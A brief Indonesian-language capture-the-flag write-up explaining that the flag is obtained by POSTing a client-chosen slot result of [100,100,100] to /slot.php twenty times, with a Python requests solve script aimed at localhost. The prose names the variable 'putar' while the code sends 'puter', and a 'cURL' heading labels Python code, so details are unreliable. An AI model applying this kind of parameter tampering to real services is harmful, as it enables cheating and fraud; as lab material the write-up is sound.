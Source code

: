 ## How To

Untuk dapetin FLAG, kamu harus ngirim POST request ke endpoint `/slot.php` dengan variable putar di set ke [100,100,100] sebanyak 20x agar mendapatkan flagnya.

### Contoh Menggunakan `cURL`

```python
import requests

HOST = "http://localhost:777"

s = requests.Session()
for i in range(20):
    resp = s.post(f"{HOST}/slot.php", json={"puter": [100, 100, 100]})
    print(resp.content)
```